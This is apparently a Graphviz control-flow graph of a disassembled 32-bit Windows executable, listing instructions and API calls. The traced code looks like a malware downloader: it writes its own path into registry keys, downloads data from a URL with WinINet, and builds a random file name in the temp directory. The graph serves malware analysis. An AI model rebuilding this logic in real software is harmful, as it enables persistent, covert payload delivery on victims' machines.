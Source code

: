 digraph G {
node[shape=rectangle,style=filled,fillcolor=lightsteelblue,color=lightsteelblue]
bgcolor="transparent"
a0x00401865pushl_ebp[label="start\npushl %ebp",fillcolor="orange",color="lightgrey"];
a0x00401866movl_esp_ebp[label="0x00401866\nmovl %esp, %ebp"];
a0x00401868pushl_0x8002UINT32[label="0x00401868\npushl $0x8002<UINT32>"];
a0x0040186dcall_SetErrorMode_kernel32_dll[label="0x0040186d\ncall SetErrorMode@kernel32.dll"];
SetErrorMode_kernel32_dll[label="SetErrorMode@kernel32.dll",fillcolor="lightgrey",color="lightgrey"];
a0x00401873pushl_0x40457cUINT32[label="0x00401873\npushl $0x40457c<UINT32>"];
a0x00401878pushl_0x40458cUINT32[label="0x00401878\npushl $0x40458c<UINT32>"];
a0x0040187dcall_GetModuleHandleA_kernel32_dll[label="0x0040187d\ncall GetModuleHandleA@kernel32.dll"];
GetModuleHandleA_kernel32_dll[label="GetModuleHandleA@kernel32.dll",fillcolor="lightgrey",color="lightgrey"];
a0x00401883pushl_eax[label="0x00401883\npushl %eax"];
a0x00401884call_GetProcAddress_kernel32_dll[label="0x00401884\ncall GetProcAddress@kernel32.dll"];
GetProcAddress_kernel32_dll[label="GetProcAddress@kernel32.dll",fillcolor="lightgrey",color="lightgrey"];
a0x0040188amovl_eax_0x004049a4[label="0x0040188a\nmovl %eax, 0x004049a4"];
a0x0040188fpushl_0x0UINT8[label="0x0040188f\npushl $0x0<UINT8>"];
a0x00401891pushl_0x1UINT8[label="0x00401891\npushl $0x1<UINT8>"];
a0x00401893pushl_0x404598UINT32[label="0x00401893\npushl $0x404598<UINT32>"];
a0x00401898call_0x00401475[label="0x00401898\ncall 0x00401475"];
a0x00401475pushl_ebp[label="0x00401475\npushl %ebp"];
a0x00401476movl_esp_ebp[label="0x00401476\nmovl %esp, %ebp"];
a0x00401478subl_0x984UINT32_esp[label="0x00401478\nsubl $0x984<UINT32>, %esp"];
a0x0040147emovl_0x104UINT32__1632ebp_[label="0x0040147e\nmovl $0x104<UINT32>, -1632(%ebp)"];
a0x00401488movl_0x0UINT32__1548ebp_[label="0x00401488\nmovl $0x0<UINT32>, -1548(%ebp)"];
a0x00401492pushl_0x200UINT32[label="0x00401492\npushl $0x200<UINT32>"];
a0x00401497leal__1540ebp__eax[label="0x00401497\nleal -1540(%ebp), %eax"];
a0x0040149dpushl_eax[label="0x0040149d\npushl %eax"];
a0x0040149epushl_0x0UINT8[label="0x0040149e\npushl $0x0<UINT8>"];
a0x004014a0call_GetModuleFileNameA_kernel32_dll[label="0x004014a0\ncall GetModuleFileNameA@kernel32.dll"];
GetModuleFileNameA_kernel32_dll[label="GetModuleFileNameA@kernel32.dll",fillcolor="lightgrey",color="lightgrey"];
a0x004014a6leal__1544ebp__ecx[label="0x004014a6\nleal -1544(%ebp), %ecx"];
a0x004014acpushl_ecx[label="0x004014ac\npushl %ecx"];
a0x004014adpushl_0x40447cUINT32[label="0x004014ad\npushl $0x40447c<UINT32>"];
a0x004014b2pushl_0x80000002UINT32[label="0x004014b2\npushl $0x80000002<UINT32>"];
a0x004014b7call_RegOpenKeyA_advapi32_dll[label="0x004014b7\ncall RegOpenKeyA@advapi32.dll"];
RegOpenKeyA_advapi32_dll[label="RegOpenKeyA@advapi32.dll",fillcolor="lightgrey",color="lightgrey"];
a0x004014bdtestl_eax_eax[label="0x004014bd\ntestl %eax, %eax"];
a0x004014bfjne_0x0040150a[label="0x004014bf\njne 0x0040150a"];
a0x004014c1leal__1540ebp__edx[label="0x004014c1\nleal -1540(%ebp), %edx"];
a0x004014c7pushl_edx[label="0x004014c7\npushl %edx"];
a0x004014c8pushl_0x4044f4UINT32[label="0x004014c8\npushl $0x4044f4<UINT32>"];
a0x004014cdleal__1028ebp__eax[label="0x004014cd\nleal -1028(%ebp), %eax"];
a0x004014d3pushl_eax[label="0x004014d3\npushl %eax"];
a0x004014d4call_wsprintfA_user32_dll[label="0x004014d4\ncall wsprintfA@user32.dll"];
wsprintfA_user32_dll[label="wsprintfA@user32.dll",fillcolor="lightgrey",color="lightgrey"];
a0x004014daaddl_0xcUINT8_esp[label="0x004014da\naddl $0xc<UINT8>, %esp"];
a0x004014ddleal__1028ebp__ecx[label="0x004014dd\nleal -1028(%ebp), %ecx"];
a0x004014e3pushl_ecx[label="0x004014e3\npushl %ecx"];
a0x004014e4call_lstrlenA_kernel32_dll[label="0x004014e4\ncall lstrlenA@kernel32.dll"];
lstrlenA_kernel32_dll[label="lstrlenA@kernel32.dll",fillcolor="lightgrey",color="lightgrey"];
a0x004014eapushl_eax[label="0x004014ea\npushl %eax"];
a0x004014ebleal__1028ebp__edx[label="0x004014eb\nleal -1028(%ebp), %edx"];
a0x004014f1pushl_edx[label="0x004014f1\npushl %edx"];
a0x004014f2pushl_0x1UINT8[label="0x004014f2\npushl $0x1<UINT8>"];
a0x004014f4pushl_0x0UINT8[label="0x004014f4\npushl $0x0<UINT8>"];
a0x004014f6leal__1540ebp__eax[label="0x004014f6\nleal -1540(%ebp), %eax"];
a0x004014fcpushl_eax[label="0x004014fc\npushl %eax"];
a0x004014fdmovl__1544ebp__ecx[label="0x004014fd\nmovl -1544(%ebp), %ecx"];
a0x00401503pushl_ecx[label="0x00401503\npushl %ecx"];
a0x00401504call_RegSetValueExA_advapi32_dll[label="0x00401504\ncall RegSetValueExA@advapi32.dll"];
RegSetValueExA_advapi32_dll[label="RegSetValueExA@advapi32.dll",fillcolor="lightgrey",color="lightgrey"];
a0x0040150amovl__1544ebp__edx[label="0x0040150a\nmovl -1544(%ebp), %edx"];
a0x00401510pushl_edx[label="0x00401510\npushl %edx"];
a0x00401511call_RegCloseKey_advapi32_dll[label="0x00401511\ncall RegCloseKey@advapi32.dll"];
RegCloseKey_advapi32_dll[label="RegCloseKey@advapi32.dll",fillcolor="lightgrey",color="lightgrey"];
a0x00401517leal__1544ebp__eax[label="0x00401517\nleal -1544(%ebp), %eax"];
a0x0040151dpushl_eax[label="0x0040151d\npushl %eax"];
a0x0040151epushl_0xf003fUINT32[label="0x0040151e\npushl $0xf003f<UINT32>"];
a0x00401523pushl_0x0UINT8[label="0x00401523\npushl $0x0<UINT8>"];
a0x00401525pushl_0x404508UINT32[label="0x00401525\npushl $0x404508<UINT32>"];
a0x0040152apushl_0x80000001UINT32[label="0x0040152a\npushl $0x80000001<UINT32>"];
a0x0040152fcall_RegOpenKeyExA_advapi32_dll[label="0x0040152f\ncall RegOpenKeyExA@advapi32.dll"];
RegOpenKeyExA_advapi32_dll[label="RegOpenKeyExA@advapi32.dll",fillcolor="lightgrey",color="lightgrey"];
a0x00401535testl_eax_eax[label="0x00401535\ntestl %eax, %eax"];
a0x00401537jne_0x0040156f[label="0x00401537\njne 0x0040156f"];
a0x00401539movl_0x0UINT32__1632ebp_[label="0x00401539\nmovl $0x0<UINT32>, -1632(%ebp)"];
a0x00401543pushl_0x4UINT8[label="0x00401543\npushl $0x4<UINT8>"];
a0x00401545leal__1632ebp__ecx[label="0x00401545\nleal -1632(%ebp), %ecx"];
a0x0040154bpushl_ecx[label="0x0040154b\npushl %ecx"];
a0x0040154cpushl_0x4UINT8[label="0x0040154c\npushl $0x4<UINT8>"];
a0x0040154epushl_0x0UINT8[label="0x0040154e\npushl $0x0<UINT8>"];
a0x00401550pushl_0x404544UINT32[label="0x00401550\npushl $0x404544<UINT32>"];
a0x00401555movl__1544ebp__edx[label="0x00401555\nmovl -1544(%ebp), %edx"];
a0x0040155bpushl_edx[label="0x0040155b\npushl %edx"];
a0x0040155ccall_RegSetValueExA_advapi32_dll[label="0x0040155c\ncall RegSetValueExA@advapi32.dll"];
a0x00401562movl__1544ebp__eax[label="0x00401562\nmovl -1544(%ebp), %eax"];
a0x00401568pushl_eax[label="0x00401568\npushl %eax"];
a0x00401569call_RegCloseKey_advapi32_dll[label="0x00401569\ncall RegCloseKey@advapi32.dll"];
a0x0040156fpushl_0x3fc00UINT32[label="0x0040156f\npushl $0x3fc00<UINT32>"];
a0x00401574pushl_0x40UINT8[label="0x00401574\npushl $0x40<UINT8>"];
a0x00401576call_GlobalAlloc_kernel32_dll[label="0x00401576\ncall GlobalAlloc@kernel32.dll"];
GlobalAlloc_kernel32_dll[label="GlobalAlloc@kernel32.dll",fillcolor="lightgrey",color="lightgrey"];
a0x0040157cmovl_eax__4ebp_[label="0x0040157c\nmovl %eax, -4(%ebp)"];
a0x0040157fpushl_0x3fc00UINT32[label="0x0040157f\npushl $0x3fc00<UINT32>"];
a0x00401584movl__4ebp__ecx[label="0x00401584\nmovl -4(%ebp), %ecx"];
a0x00401587pushl_ecx[label="0x00401587\npushl %ecx"];
a0x00401588movl_0x8ebp__edx[label="0x00401588\nmovl 0x8(%ebp), %edx"];
a0x0040158bpushl_edx[label="0x0040158b\npushl %edx"];
a0x0040158ccall_0x00401340[label="0x0040158c\ncall 0x00401340"];
a0x00401340pushl_ebp[label="0x00401340\npushl %ebp"];
a0x00401341movl_esp_ebp[label="0x00401341\nmovl %esp, %ebp"];
a0x00401343subl_0x414UINT32_esp[label="0x00401343\nsubl $0x414<UINT32>, %esp"];
a0x00401349pushl_edi[label="0x00401349\npushl %edi"];
a0x0040134amovb_0x0UINT8__1032ebp_[label="0x0040134a\nmovb $0x0<UINT8>, -1032(%ebp)"];
a0x00401351movl_0x100UINT32_ecx[label="0x00401351\nmovl $0x100<UINT32>, %ecx"];
a0x00401356xorl_eax_eax[label="0x00401356\nxorl %eax, %eax"];
a0x00401358leal__1031ebp__edi[label="0x00401358\nleal -1031(%ebp), %edi"];
a0x0040135erepz_stosl_eax_es_edi_[label="0x0040135e\nrepz stosl %eax, %es:(%edi)"];
a0x00401360movl_0x400UINT32__1044ebp_[label="0x00401360\nmovl $0x400<UINT32>, -1044(%ebp)"];
a0x0040136amovl_0x0UINT32__4ebp_[label="0x0040136a\nmovl $0x0<UINT32>, -4(%ebp)"];
a0x00401371pushl_0x0UINT8[label="0x00401371\npushl $0x0<UINT8>"];
a0x00401373pushl_0x0UINT8[label="0x00401373\npushl $0x0<UINT8>"];
a0x00401375pushl_0x0UINT8[label="0x00401375\npushl $0x0<UINT8>"];
a0x00401377pushl_0x1UINT8[label="0x00401377\npushl $0x1<UINT8>"];
a0x00401379pushl_0x404460UINT32[label="0x00401379\npushl $0x404460<UINT32>"];
a0x0040137ecall_InternetOpenA_wininet_dll[label="0x0040137e\ncall InternetOpenA@wininet.dll"];
InternetOpenA_wininet_dll[label="InternetOpenA@wininet.dll",fillcolor="lightgrey",color="lightgrey"];
a0x00401384movl_eax__1036ebp_[label="0x00401384\nmovl %eax, -1036(%ebp)"];
a0x0040138acmpl_0x0UINT8__1036ebp_[label="0x0040138a\ncmpl $0x0<UINT8>, -1036(%ebp)"];
a0x00401391je_0x00401441[label="0x00401391\nje 0x00401441"];
a0x00401397pushl_0x0UINT8[label="0x00401397\npushl $0x0<UINT8>"];
a0x00401399pushl_0x84000000UINT32[label="0x00401399\npushl $0x84000000<UINT32>"];
a0x0040139epushl_0x0UINT8[label="0x0040139e\npushl $0x0<UINT8>"];
a0x004013a0pushl_0x0UINT8[label="0x004013a0\npushl $0x0<UINT8>"];
a0x004013a2movl_0x8ebp__eax[label="0x004013a2\nmovl 0x8(%ebp), %eax"];
a0x004013a5pushl_eax[label="0x004013a5\npushl %eax"];
a0x004013a6movl__1036ebp__ecx[label="0x004013a6\nmovl -1036(%ebp), %ecx"];
a0x004013acpushl_ecx[label="0x004013ac\npushl %ecx"];
a0x004013adcall_InternetOpenUrlA_wininet_dll[label="0x004013ad\ncall InternetOpenUrlA@wininet.dll"];
InternetOpenUrlA_wininet_dll[label="InternetOpenUrlA@wininet.dll",fillcolor="lightgrey",color="lightgrey"];
a0x004013b3movl_eax__1040ebp_[label="0x004013b3\nmovl %eax, -1040(%ebp)"];
a0x004013b9cmpl_0x0UINT8__1040ebp_[label="0x004013b9\ncmpl $0x0<UINT8>, -1040(%ebp)"];
a0x004013c0je_0x00401441[label="0x004013c0\nje 0x00401441"];
a0x00401441cmpl_0x0UINT8__1040ebp_[label="0x00401441\ncmpl $0x0<UINT8>, -1040(%ebp)"];
a0x00401448je_0x00401457[label="0x00401448\nje 0x00401457"];
a0x00401457cmpl_0x0UINT8__1036ebp_[label="0x00401457\ncmpl $0x0<UINT8>, -1036(%ebp)"];
a0x0040145eje_0x0040146d[label="0x0040145e\nje 0x0040146d"];
a0x00401460movl__1036ebp__eax[label="0x00401460\nmovl -1036(%ebp), %eax"];
a0x00401466pushl_eax[label="0x00401466\npushl %eax"];
a0x00401467call_InternetCloseHandle_wininet_dll[label="0x00401467\ncall InternetCloseHandle@wininet.dll"];
InternetCloseHandle_wininet_dll[label="InternetCloseHandle@wininet.dll",fillcolor="lightgrey",color="lightgrey"];
a0x0040146dmovl__4ebp__eax[label="0x0040146d\nmovl -4(%ebp), %eax"];
a0x00401470popl_edi[label="0x00401470\npopl %edi"];
a0x00401471movl_ebp_esp[label="0x00401471\nmovl %ebp, %esp"];
a0x00401473popl_ebp[label="0x00401473\npopl %ebp"];
a0x00401474ret[label="0x00401474\nret"];
a0x00401591addl_0xcUINT8_esp[label="0x00401591\naddl $0xc<UINT8>, %esp"];
a0x00401594movl_eax__1548ebp_[label="0x00401594\nmovl %eax, -1548(%ebp)"];
a0x0040159amovl_0xcebp__eax[label="0x0040159a\nmovl 0xc(%ebp), %eax"];
a0x0040159dandl_0xffUINT32_eax[label="0x0040159d\nandl $0xff<UINT32>, %eax"];
a0x004015a2testl_eax_eax[label="0x004015a2\ntestl %eax, %eax"];
a0x004015a4je_0x00401821[label="0x004015a4\nje 0x00401821"];
a0x004015aacmpl_0x0UINT8__1548ebp_[label="0x004015aa\ncmpl $0x0<UINT8>, -1548(%ebp)"];
a0x004015b1jbe_0x00401821[label="0x004015b1\njbe 0x00401821"];
a0x00401821movl__4ebp__edx[label="0x00401821\nmovl -4(%ebp), %edx"];
a0x00401824pushl_edx[label="0x00401824\npushl %edx"];
a0x00401825call_GlobalFree_kernel32_dll[label="0x00401825\ncall GlobalFree@kernel32.dll"];
GlobalFree_kernel32_dll[label="GlobalFree@kernel32.dll",fillcolor="lightgrey",color="lightgrey"];
a0x0040182bcmpl_0x0UINT8_0x10ebp_[label="0x0040182b\ncmpl $0x0<UINT8>, 0x10(%ebp)"];
a0x0040182fje_0x0040185f[label="0x0040182f\nje 0x0040185f"];
a0x0040185fxorl_eax_eax[label="0x0040185f\nxorl %eax, %eax"];
a0x00401861movl_ebp_esp[label="0x00401861\nmovl %ebp, %esp"];
a0x00401863popl_ebp[label="0x00401863\npopl %ebp"];
a0x00401864ret[label="0x00401864\nret"];
a0x0040189daddl_0xcUINT8_esp[label="0x0040189d\naddl $0xc<UINT8>, %esp"];
a0x004018a0pushl_0x0UINT8[label="0x004018a0\npushl $0x0<UINT8>"];
a0x004018a2pushl_0x1UINT8[label="0x004018a2\npushl $0x1<UINT8>"];
a0x004018a4pushl_0x4045c0UINT32[label="0x004018a4\npushl $0x4045c0<UINT32>"];
a0x004018a9call_0x00401475[label="0x004018a9\ncall 0x00401475"];
a0x004013c2cmpl_0x0UINT8_0xcebp_[label="0x004013c2\ncmpl $0x0<UINT8>, 0xc(%ebp)"];
a0x004013c6jne_0x004013cf[label="0x004013c6\njne 0x004013cf"];
a0x004013cfcmpl_0x0UINT8_0xcebp_[label="0x004013cf\ncmpl $0x0<UINT8>, 0xc(%ebp)"];
a0x004013d3je_0x00401441[label="0x004013d3\nje 0x00401441"];
a0x004013d5leal__1044ebp__edx[label="0x004013d5\nleal -1044(%ebp), %edx"];
a0x004013dbpushl_edx[label="0x004013db\npushl %edx"];
a0x004013dcpushl_0x400UINT32[label="0x004013dc\npushl $0x400<UINT32>"];
a0x004013e1leal__1032ebp__eax[label="0x004013e1\nleal -1032(%ebp), %eax"];
a0x004013e7pushl_eax[label="0x004013e7\npushl %eax"];
a0x004013e8movl__1040ebp__ecx[label="0x004013e8\nmovl -1040(%ebp), %ecx"];
a0x004013eepushl_ecx[label="0x004013ee\npushl %ecx"];
a0x004013efcall_InternetReadFile_wininet_dll[label="0x004013ef\ncall InternetReadFile@wininet.dll"];
InternetReadFile_wininet_dll[label="InternetReadFile@wininet.dll",fillcolor="lightgrey",color="lightgrey"];
a0x004013f5testl_eax_eax[label="0x004013f5\ntestl %eax, %eax"];
a0x004013f7je_0x00401438[label="0x004013f7\nje 0x00401438"];
a0x004013f9movl__4ebp__edx[label="0x004013f9\nmovl -4(%ebp), %edx"];
a0x004013fccmpl_0x10ebp__edx[label="0x004013fc\ncmpl 0x10(%ebp), %edx"];
a0x004013ffjae_0x0040140f[label="0x004013ff\njae 0x0040140f"];
a0x00401401movl__4ebp__eax[label="0x00401401\nmovl -4(%ebp), %eax"];
a0x00401404addl__1044ebp__eax[label="0x00401404\naddl -1044(%ebp), %eax"];
a0x0040140acmpl_0x10ebp__eax[label="0x0040140a\ncmpl 0x10(%ebp), %eax"];
a0x0040140djbe_0x00401411[label="0x0040140d\njbe 0x00401411"];
a0x00401411movl__1044ebp__ecx[label="0x00401411\nmovl -1044(%ebp), %ecx"];
a0x00401417pushl_ecx[label="0x00401417\npushl %ecx"];
a0x00401418leal__1032ebp__edx[label="0x00401418\nleal -1032(%ebp), %edx"];
a0x0040141epushl_edx[label="0x0040141e\npushl %edx"];
a0x0040141fmovl_0xcebp__eax[label="0x0040141f\nmovl 0xc(%ebp), %eax"];
a0x00401422addl__4ebp__eax[label="0x00401422\naddl -4(%ebp), %eax"];
a0x00401425pushl_eax[label="0x00401425\npushl %eax"];
a0x00401426call_0x004049a4[label="0x00401426\ncall 0x004049a4"];
RtlMoveMemory_KERNEL32[label="RtlMoveMemory@KERNEL32",fillcolor="lightgrey",color="lightgrey"];
a0x0040142cmovl__4ebp__ecx[label="0x0040142c\nmovl -4(%ebp), %ecx"];
a0x0040142faddl__1044ebp__ecx[label="0x0040142f\naddl -1044(%ebp), %ecx"];
a0x00401435movl_ecx__4ebp_[label="0x00401435\nmovl %ecx, -4(%ebp)"];
a0x00401438cmpl_0x0UINT8__1044ebp_[label="0x00401438\ncmpl $0x0<UINT8>, -1044(%ebp)"];
a0x0040143fjne_0x004013d5[label="0x0040143f\njne 0x004013d5"];
a0x0040144amovl__1040ebp__edx[label="0x0040144a\nmovl -1040(%ebp), %edx"];
a0x00401450pushl_edx[label="0x00401450\npushl %edx"];
a0x00401451call_InternetCloseHandle_wininet_dll[label="0x00401451\ncall InternetCloseHandle@wininet.dll"];
a0x004015b7leal__2172ebp__ecx[label="0x004015b7\nleal -2172(%ebp), %ecx"];
a0x004015bdpushl_ecx[label="0x004015bd\npushl %ecx"];
a0x004015becall_0x00401277[label="0x004015be\ncall 0x00401277"];
a0x00401277pushl_ebp[label="0x00401277\npushl %ebp"];
a0x00401278movl_esp_ebp[label="0x00401278\nmovl %esp, %ebp"];
a0x0040127asubl_0x104UINT32_esp[label="0x0040127a\nsubl $0x104<UINT32>, %esp"];
a0x00401280movl_0x8ebp__eax[label="0x00401280\nmovl 0x8(%ebp), %eax"];
a0x00401283pushl_eax[label="0x00401283\npushl %eax"];
a0x00401284pushl_0x80UINT32[label="0x00401284\npushl $0x80<UINT32>"];
a0x00401289call_GetTempPathA_kernel32_dll[label="0x00401289\ncall GetTempPathA@kernel32.dll"];
GetTempPathA_kernel32_dll[label="GetTempPathA@kernel32.dll",fillcolor="lightgrey",color="lightgrey"];
a0x0040128fmovl_0x8ebp__ecx[label="0x0040128f\nmovl 0x8(%ebp), %ecx"];
a0x00401292pushl_ecx[label="0x00401292\npushl %ecx"];
a0x00401293call_lstrlenA_kernel32_dll[label="0x00401293\ncall lstrlenA@kernel32.dll"];
a0x00401299movl_0x8ebp__edx[label="0x00401299\nmovl 0x8(%ebp), %edx"];
a0x0040129cmovsbl__1edxeax__eax[label="0x0040129c\nmovsbl -1(%edx,%eax), %eax"];
a0x004012a1cmpl_0x5cUINT8_eax[label="0x004012a1\ncmpl $0x5c<UINT8>, %eax"];
a0x004012a4je_0x004012b5[label="0x004012a4\nje 0x004012b5"];
a0x004012b5leal__260ebp__edx[label="0x004012b5\nleal -260(%ebp), %edx"];
a0x004012bbpushl_edx[label="0x004012bb\npushl %edx"];
a0x004012bccall_0x004011ff[label="0x004012bc\ncall 0x004011ff"];
a0x004011ffpushl_ebp[label="0x004011ff\npushl %ebp"];
a0x00401200movl_esp_ebp[label="0x00401200\nmovl %esp, %ebp"];
a0x00401202subl_0x20UINT8_esp[label="0x00401202\nsubl $0x20<UINT8>, %esp"];
a0x00401205call_0x004011c5[label="0x00401205\ncall 0x004011c5"];
a0x004011c5pushl_ebp[label="0x004011c5\npushl %ebp"];
a0x004011c6movl_esp_ebp[label="0x004011c6\nmovl %esp, %ebp"];
a0x004011c8call_GetTickCount_kernel32_dll[label="0x004011c8\ncall GetTickCount@kernel32.dll"];
GetTickCount_kernel32_dll[label="GetTickCount@kernel32.dll",fillcolor="lightgrey",color="lightgrey"];
a0x004011cemovl_eax_0x00404aac[label="0x004011ce\nmovl %eax, 0x00404aac"];
a0x004011d3popl_ebp[label="0x004011d3\npopl %ebp"];
a0x004011d4ret[label="0x004011d4\nret"];
a0x0040120acall_0x004011d5[label="0x0040120a\ncall 0x004011d5"];
a0x004011d5pushl_ebp[label="0x004011d5\npushl %ebp"];
a0x004011d6movl_esp_ebp[label="0x004011d6\nmovl %esp, %ebp"];
a0x004011d8movl_0x00404aac_eax[label="0x004011d8\nmovl 0x00404aac, %eax"];
a0x004011ddimull_0x15a4e35UINT32_eax_eax[label="0x004011dd\nimull $0x15a4e35<UINT32>, %eax, %eax"];
a0x004011e3addl_0x1UINT8_eax[label="0x004011e3\naddl $0x1<UINT8>, %eax"];
a0x004011e6movl_eax_0x00404aac[label="0x004011e6\nmovl %eax, 0x00404aac"];
a0x004011ebmovl_0x00404aac_eax[label="0x004011eb\nmovl 0x00404aac, %eax"];
a0x004011f0shrl_0x10UINT8_eax[label="0x004011f0\nshrl $0x10<UINT8>, %eax"];
a0x004011f3andl_0xffffUINT32_eax[label="0x004011f3\nandl $0xffff<UINT32>, %eax"];
a0x004011f8andl_0xffffUINT32_eax[label="0x004011f8\nandl $0xffff<UINT32>, %eax"];
a0x004011fdpopl_ebp[label="0x004011fd\npopl %ebp"];
a0x004011feret[label="0x004011fe\nret"];
a0x0040120fandl_0xffffUINT32_eax[label="0x0040120f\nandl $0xffff<UINT32>, %eax"];
a0x00401214cltd_[label="0x00401214\ncltd "];
a0x00401215movl_0x3UINT32_ecx[label="0x00401215\nmovl $0x3<UINT32>, %ecx"];
a0x0040121aidivl_ecx_eax[label="0x0040121a\nidivl %ecx, %eax"];
a0x0040121caddl_0x4UINT8_edx[label="0x0040121c\naddl $0x4<UINT8>, %edx"];
a0x0040121fmovl_edx__28ebp_[label="0x0040121f\nmovl %edx, -28(%ebp)"];
a0x00401222movl_0x0UINT32__32ebp_[label="0x00401222\nmovl $0x0<UINT32>, -32(%ebp)"];
a0x00401229jmp_0x00401234[label="0x00401229\njmp 0x00401234"];
a0x00401234movl__32ebp__eax[label="0x00401234\nmovl -32(%ebp), %eax"];
a0x00401237cmpl__28ebp__eax[label="0x00401237\ncmpl -28(%ebp), %eax"];
a0x0040123ajae_0x0040125a[label="0x0040123a\njae 0x0040125a"];
a0x0040123ccall_0x004011d5[label="0x0040123c\ncall 0x004011d5"];
a0x00401241andl_0xffffUINT32_eax[label="0x00401241\nandl $0xffff<UINT32>, %eax"];
a0x00401246cltd_[label="0x00401246\ncltd "];
a0x00401247movl_0x19UINT32_ecx[label="0x00401247\nmovl $0x19<UINT32>, %ecx"];
a0x0040124cidivl_ecx_eax[label="0x0040124c\nidivl %ecx, %eax"];
a0x0040124eaddl_0x61UINT8_edx[label="0x0040124e\naddl $0x61<UINT8>, %edx"];
a0x00401251movl__32ebp__eax[label="0x00401251\nmovl -32(%ebp), %eax"];
a0x00401254movb_dl__24ebpeax_[label="0x00401254\nmovb %dl, -24(%ebp,%eax)"];
a0x00401258jmp_0x0040122b[label="0x00401258\njmp 0x0040122b"];
a0x0040122bmovl__32ebp__edx[label="0x0040122b\nmovl -32(%ebp), %edx"];
a0x0040122eaddl_0x1UINT8_edx[label="0x0040122e\naddl $0x1<UINT8>, %edx"];
a0x00401231movl_edx__32ebp_[label="0x00401231\nmovl %edx, -32(%ebp)"];
a0x0040125amovl__32ebp__ecx[label="0x0040125a\nmovl -32(%ebp), %ecx"];
a0x0040125dmovb_0x0UINT8__24ebpecx_[label="0x0040125d\nmovb $0x0<UINT8>, -24(%ebp,%ecx)"];
a0x00401262leal__24ebp__edx[label="0x00401262\nleal -24(%ebp), %edx"];
a0x00401265pushl_edx[label="0x00401265\npushl %edx"];
a0x00401266movl_0x8ebp__eax[label="0x00401266\nmovl 0x8(%ebp), %eax"];
a0x00401269pushl_eax[label="0x00401269\npushl %eax"];
a0x0040126acall_lstrcpyA_kernel32_dll[label="0x0040126a\ncall lstrcpyA@kernel32.dll"];
lstrcpyA_kernel32_dll[label="lstrcpyA@kernel32.dll",fillcolor="lightgrey",color="lightgrey"];
a0x00401270movl_0x8ebp__eax[label="0x00401270\nmovl 0x8(%ebp), %eax"];
a0x00401273movl_ebp_esp[label="0x00401273\nmovl %ebp, %esp"];
a0x00401275popl_ebp[label="0x00401275\npopl %ebp"];
a0x00401276ret[label="0x00401276\nret"];
a0x004012c1addl_0x4UINT8_esp[label="0x004012c1\naddl $0x4<UINT8>, %esp"];
a0x004012c4pushl_eax[label="0x004012c4\npushl %eax"];
a0x004012c5leal__260ebp__eax[label="0x004012c5\nleal -260(%ebp), %eax"];
a0x004012cbpushl_eax[label="0x004012cb\npushl %eax"];
a0x004012cccall_lstrcpyA_kernel32_dll[label="0x004012cc\ncall lstrcpyA@kernel32.dll"];
a0x004012d2leal__260ebp__ecx[label="0x004012d2\nleal -260(%ebp), %ecx"];
a0x004012d8pushl_ecx[label="0x004012d8\npushl %ecx"];
a0x004012d9pushl_0x404454UINT32[label="0x004012d9\npushl $0x404454<UINT32>"];
a0x004012demovl_0x8ebp__edx[label="0x004012de\nmovl 0x8(%ebp), %edx"];
a0x004012e1pushl_edx[label="0x004012e1\npushl %edx"];
a0x004012e2call_lstrlenA_kernel32_dll[label="0x004012e2\ncall lstrlenA@kernel32.dll"];
a0x004012e8movl_0x8ebp__ecx[label="0x004012e8\nmovl 0x8(%ebp), %ecx"];
a0x004012ebaddl_eax_ecx[label="0x004012eb\naddl %eax, %ecx"];
a0x004012edpushl_ecx[label="0x004012ed\npushl %ecx"];
a0x004012eecall_wsprintfA_user32_dll[label="0x004012ee\ncall wsprintfA@user32.dll"];
a0x004012f4addl_0xcUINT8_esp[label="0x004012f4\naddl $0xc<UINT8>, %esp"];
a0x004012f7movl_ebp_esp[label="0x004012f7\nmovl %ebp, %esp"];
a0x004012f9popl_ebp[label="0x004012f9\npopl %ebp"];
a0x004012faret[label="0x004012fa\nret"];
a0x004015c3addl_0x4UINT8_esp[label="0x004015c3\naddl $0x4<UINT8>, %esp"];
a0x004015c6pushl_0x0UINT8[label="0x004015c6\npushl $0x0<UINT8>"];
